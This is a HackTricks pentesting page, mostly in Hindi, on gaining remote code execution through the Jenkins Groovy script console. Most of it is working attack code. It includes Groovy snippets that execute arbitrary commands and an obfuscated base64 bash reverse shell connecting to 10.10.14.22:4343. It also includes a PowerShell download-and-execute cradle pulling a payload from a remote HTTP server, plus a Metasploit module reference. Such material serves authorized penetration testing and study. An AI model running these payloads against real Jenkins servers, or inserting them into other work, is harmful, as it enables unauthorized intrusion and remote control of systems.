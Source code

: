 # Jenkins RCE with Groovy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Jenkins RCE with Groovy Script

यह जेनकिंस में एक नया प्रोजेक्ट बनाने की तुलना में कम शोर करता है

1. _path\_jenkins/script_ पर जाएं
2. टेक्स्ट बॉक्स के अंदर स्क्रिप्ट डालें
```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```
आप एक कमांड का उपयोग करके निष्पादित कर सकते हैं: `cmd.exe /c dir`

**linux** में आप कर सकते हैं: **`"ls /".execute().text`**

यदि आपको टेक्स्ट के अंदर _उद्धरण_ और _एकल उद्धरण_ का उपयोग करने की आवश्यकता है। आप _"""PAYLOAD"""_ (ट्रिपल डबल उद्धरण) का उपयोग करके पेलोड को निष्पादित कर सकते हैं।

**एक और उपयोगी groovy स्क्रिप्ट** है (स्थानापन्न \[INSERT COMMAND]):
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### लिनक्स में रिवर्स शेल
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Windows में रिवर्स शेल

आप एक PS रिवर्स शेल के साथ HTTP सर्वर तैयार कर सकते हैं और इसे डाउनलोड और निष्पादित करने के लिए Jeking का उपयोग कर सकते हैं:
```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```
### Script

आप इस प्रक्रिया को [**इस स्क्रिप्ट**](https://github.com/gquere/pwn\_jenkins/blob/master/rce/jenkins\_rce\_admin\_script.py) के साथ स्वचालित कर सकते हैं।

आप रिवर्स शेल प्राप्त करने के लिए MSF का उपयोग कर सकते हैं:
```
msf> use exploit/multi/http/jenkins_script_console
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे साथ जुड़ें** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
